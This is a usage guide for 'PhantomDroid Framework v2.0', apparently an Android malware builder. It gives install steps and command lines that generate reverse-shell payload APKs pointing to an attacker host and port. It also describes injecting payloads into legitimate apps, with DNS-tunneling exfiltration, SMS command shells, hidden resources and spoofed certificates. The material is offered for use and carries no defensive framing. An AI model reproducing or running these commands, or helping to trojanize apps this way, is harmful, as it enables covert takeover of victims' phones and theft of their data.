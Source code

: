 # PhantomDroid Framework v2.0 - Usage Guide

## Quick Start

### 1. Installation
```bash
# Clone or extract PhantomDroid
cd PhantomDroid

# Run installer (Linux/macOS)
chmod +x install.sh
sudo ./install.sh

# Make main script executable
chmod +x phantomdroid.sh
```

### 2. Basic Usage

#### Interactive Mode (Recommended)
```bash
./phantomdroid.sh
```

#### Command Line Mode
```bash
# Generate standalone payload
./phantomdroid.sh --payload tcp --lhost 192.168.1.100 --lport 4444

# Bind payload to existing APK
./phantomdroid.sh --target app.apk --lhost 192.168.1.100 --lport 4444
```

## Main Menu Options

### 1. Generate Standalone Payload
Creates a new APK with embedded payload:
- **TCP Reverse Shell**: Direct TCP connection
- **HTTP/HTTPS Shell**: Web-based communication
- **DNS Tunneling**: DNS-based data exfiltration
- **SMS Command Shell**: SMS-based control

### 2. Bind Payload to Existing APK
Injects payload into legitimate APK:
- **Smart Injection**: Intelligent code insertion
- **Resource Hijacking**: Hide payload in resources
- **Code Cave Injection**: Use unused code spaces
- **Certificate Spoofing**: Preserve original certificates
